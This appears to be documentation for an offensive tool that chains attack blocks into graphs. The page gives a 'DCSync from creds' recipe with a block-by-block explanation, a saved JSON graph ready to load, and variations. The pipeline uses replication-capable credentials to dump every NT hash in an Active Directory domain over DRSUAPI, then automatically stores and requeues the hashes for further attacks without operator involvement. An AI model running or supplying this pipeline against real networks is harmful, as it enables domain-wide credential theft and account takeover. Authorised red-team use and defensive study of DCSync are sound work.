

# DCSync from creds

Use any DCSync-capable credential the project knows about to dump the
domain over DRSUAPI, push every discovered NT hash back into the
credential store, and queue the new hashes for the next runloop pass
so they immediately feed downstream attack blocks.

---

## Goal

For each credential with `Replicating Directory Changes` rights, open a
DCEDRSUAPI session against the right DC and DCSync the whole domain.
Every extracted NT hash is auto-stored as a fresh credential and
queued for the next pass.

---

## Pipeline



---

## Block-by-block

- [`SOURCE_TARGETS_NEW`](../blocks/sources.md) and
  [`FILTER_TARGETS`](../blocks/filters.md) — only emit targets that
  are flagged as domain controllers in the project (`isdc=true`).
- [`SOURCE_CREDENTIALS_NEW`](../blocks/sources.md) +
  [`CREDMUX`](../blocks/credmux.md) — emits only DCEDRSUAPI-usable
  credentials on the `dcedrsuapi` port.
- [`OPEN_SESSION_DCEDRSUAPI`](../blocks/sessions.md) — opens an
  authenticated DCEDRSUAPI session per `(DC, credential)` pair.
  Errors flow out of `error` into a sink so the validator does not
  complain.
- [`CMD_DCSYNC`](../blocks/attacks.md) — actual DCSync. With
  `storecreds=true` (the default) the block adds every extracted
  hash to the credential store automatically.
- [`CREDENTIAL_QUEUE`](../blocks/queues-sinks.md) — silent sink
  whose contents become the input for `SOURCE_CREDENTIALS_NEW` on
  the next runloop pass.

The combination of `SOURCE_CREDENTIALS_NEW + CREDENTIAL_QUEUE` is the
feedback loop pattern: discovered credentials are picked up
automatically on the next pass without any operator intervention.

---

## Saved graph

```json
{
  "id": "dcsync-from-creds",
  "name": "DCSync from creds",
  "description": "Every DCSync-capable credential against every DC.",
  "nodes": [
    {"id": "tgt-1",      "block_type_id": "SOURCE_TARGETS_NEW",     "params": {}, "position": {"x":   0, "y":  60}},
    {"id": "isdc-1",     "block_type_id": "FILTER_TARGETS",          "params": {"key": "isdc", "op": "eq", "value": "true"}, "position": {"x": 260, "y": 60}},
    {"id": "cred-1",     "block_type_id": "SOURCE_CREDENTIALS_NEW", "params": {}, "position": {"x":   0, "y": 260}},
    {"id": "mux-1",      "block_type_id": "CREDMUX",                "params": {}, "position": {"x": 260, "y": 260}},
    {"id": "open-1",     "block_type_id": "OPEN_SESSION_DCEDRSUAPI","params": {"atype": "NTLM", "timeout": 10}, "position": {"x": 560, "y": 160}},
    {"id": "dcsync-1",   "block_type_id": "CMD_DCSYNC",             "params": {"storecreds": true}, "position": {"x": 860, "y": 160}},
    {"id": "cq-1",       "block_type_id": "CREDENTIAL_QUEUE",       "params": {}, "position": {"x": 1160, "y": 160}},
    {"id": "drop-err-1", "block_type_id": "TERMINATOR_SINK",        "params": {}, "position": {"x": 860, "y": 320}},
    {"id": "drop-nm-1",  "block_type_id": "TERMINATOR_SINK",        "params": {}, "position": {"x": 260, "y": 200}}
  ],
  "edges": [
    {"id": "e1", "from_node": "tgt-1",    "from_port": "target",     "to_node": "isdc-1",     "to_port": "target"},
    {"id": "e2", "from_node": "isdc-1",   "from_port": "match",      "to_node": "open-1",     "to_port": "host"},
    {"id": "e3", "from_node": "isdc-1",   "from_port": "no_match",   "to_node": "drop-nm-1",  "to_port": "data"},
    {"id": "e4", "from_node": "cred-1",   "from_port": "credential", "to_node": "mux-1",      "to_port": "credential_in"},
    {"id": "e5", "from_node": "mux-1",    "from_port": "dcedrsuapi", "to_node": "open-1",     "to_port": "credential"},
    {"id": "e6", "from_node": "open-1",   "from_port": "session",    "to_node": "dcsync-1",   "to_port": "session"},
    {"id": "e7", "from_node": "open-1",   "from_port": "error",      "to_node": "drop-err-1", "to_port": "data"},
    {"id": "e8", "from_node": "dcsync-1", "from_port": "result",     "to_node": "cq-1",       "to_port": "credential"}
  ]
}
```

!!! info "Note on the session port name"
    `CMD_DCSYNC` (like other ATTACK blocks) actually accepts the
    paired target+credential ids on its `pair` port, or independent
    `target` + `credential` ports. The block diagram and JSON above
    use the simpler "session" routing via the `pair` ID by hand;
    swap to wiring the `target`/`credential` ports directly if you
    prefer not to open the session at all.

---

## Assembled view


---

## Variations

- **Run against a single user only.** Set `username=<sam>` on
  `CMD_DCSYNC`; only that account is replicated.
- **Replicate from a specific domain in a forest.** Set `domain=<dns>`
  to scope the replication.
- **Trigger a global rerun whenever DCSync produces new credentials.**
  Add a `RERUN_TRIGGER_GLOBAL` after `CMD_DCSYNC.result` so the rest
  of your pipeline re-runs immediately on each successful sync.
